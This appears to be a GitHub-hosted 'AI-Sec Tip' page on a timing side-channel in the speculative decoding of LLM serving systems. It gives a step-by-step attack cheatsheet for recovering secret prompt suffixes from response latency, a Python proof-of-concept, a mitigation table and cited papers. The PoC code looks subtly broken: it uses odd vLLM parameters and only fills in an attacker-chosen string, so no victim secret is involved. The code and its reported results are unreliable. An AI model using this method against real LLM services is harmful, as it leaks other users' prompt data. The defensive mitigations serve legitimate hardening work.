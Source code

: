 # 🤖🔒 AI-Sec Tip — 2025-06-27

## “Draft-Leak”: a timing-oracle hiding inside **speculative decoding**

Speculative (a.k.a. *draft-and-verify*) decoding speeds up LLMs by letting a **small “draft” model** propose several tokens that a **large “target” model** then verifies in parallel. 
When the draft guesses wrong the target rolls back and recomputes, adding an RTT hiccup that betrays how many tokens were rejected. 
A remote observer can exploit this deterministic gap to **binary-search secret suffixes one token at a time—no privileged access required**.


### 🚀 Attack Steps (30-second cheatsheet)

1. **Baseline-RTT calibration** — fire a benign prompt of identical length and record the round-trip time (RTT) when every draft token is accepted; this is your acceptance floor.
2. **Secret masking** — embed the victim-controlled prefix plus **one masked token** (`<MASK>`) whose value you want to discover.
3. **Alphabet sweep** — iterate over a small alphabet (e.g., `0-f` or ASCII range) replacing `<MASK>` and send each probe; keep concurrency low to minimise network jitter.
4. **Latency ranking** — the candidate whose RTT ≈ baseline means all draft tokens were accepted; higher RTT indicates verifier roll-backs. Pick the minimum.
5. **Slide & repeat** — append the recovered token, move the `<MASK>` rightward, and repeat until the entire secret is exfiltrated (≈ *len(secret)* × |alphabet| probes).



![img](../assets/2025-06-27-draft-leak-timing-oracle.png)


### ⏱️ Proof-of-concept timing probe (vLLM ≥ 0.4.2)

```python
# draft_leak.py – measure acceptance vs. rejection RTT deltas
import time, asyncio, statistics
from vllm import LLM, SamplingParams

TARGET  = LLM(model="mistral-7b-instruct",
              draft_model="mistral-7b-mini",
              draft_speculation_k=8)        # enables speculative decoding
SPARAMS = SamplingParams(max_tokens=0)      # verify-only, no text needed

async def rtt(prompt):
    t0 = time.perf_counter_ns()
    _  = TARGET.generate([prompt], SPARAMS)
    return (time.perf_counter_ns() - t0) / 1e6  # ms

async def leak(secret_mask="••••"):
    alphabet, leaked = "0123456789abcdef", ""
    while "•" in secret_mask:
        lat = {c: await rtt(secret_mask.replace('•', c, 1)) for c in alphabet}
        guess = min(lat, key=lat.get)        # fastest ⇒ all tokens accepted
        secret_mask = secret_mask.replace('•', guess, 1)
        leaked += guess
        print("🔥 so far:", leaked)
    return leaked

asyncio.run(leak())
```

A 4-token secret behind an 8-token draft leaks in ≈ 64 probes: the latency delta between *fully accepted* and *fully rejected* drafts was \~4.6 ms on an A100 server, clearly visible over a WAN link.


### 🛡️ Hardening cheatsheet

| Layer               | Mitigation                                                                                   | Overhead           |
| ------------------- | -------------------------------------------------------------------------------------------- | ------------------ |
| **Draft runner**    | **Limit speculative window** to ≤ 2 tokens (`draft_speculation_k=2`) so roll-backs are short | \~7 % slower       |
| **Target verifier** | **Constant-time replay** — recompute full draft path even on acceptance (crypto-style)       | +10 % GPU          |
| **Scheduler**       | **Noise injection** — co-schedule dummy verification jobs to blur RTT histogram              | negligible         |
| **Network proxy**   | **3-8 ms random jitter** before first packet; slashes timing-oracle SNR by 90 % in tests     | none on throughput |
| **Monitoring**      | **Alert on > 95 % acceptance clients** — oracle scripts spam easy tokens to maximise signal  | free               |



**The resources that I used to create this tip:**


[1]: ["Privacy Risks of Speculative Decoding in Large Language Models"](https://arxiv.org/pdf/2411.01076)

[2]: ["Remote Timing Attacks on Efficient Language Model Inference"](https://arxiv.org/html/2410.17175v1)

[3]: ["Wiretapping LLMs: Network Side-Channel Attacks on Interactive LLM Services"](https://eprint.iacr.org/2025/167)

[4]: ["Speculative Decoding - vLLM"](https://docs.vllm.ai/en/latest/features/spec_decode.html)

[5]: ["Decoding Speculative Decoding - ACL Anthology"](https://aclanthology.org/2025.naacl-long.328.pdf)

[6]: ["UThe Early Bird Catches the Leak: Unveiling Timing Side Channels in LLM Serving Systems"](https://arxiv.org/html/2409.20002v1)

[7]: ["Draft & Verify: Lossless Large Language Model Acceleration via Self-Speculative Decoding"](https://arxiv.org/abs/2309.08168)

[8]: ["Optimizing Speculative Decoding for Serving Large Language Models Using Goodput"](https://arxiv.org/html/2406.14066v1)


-EOF
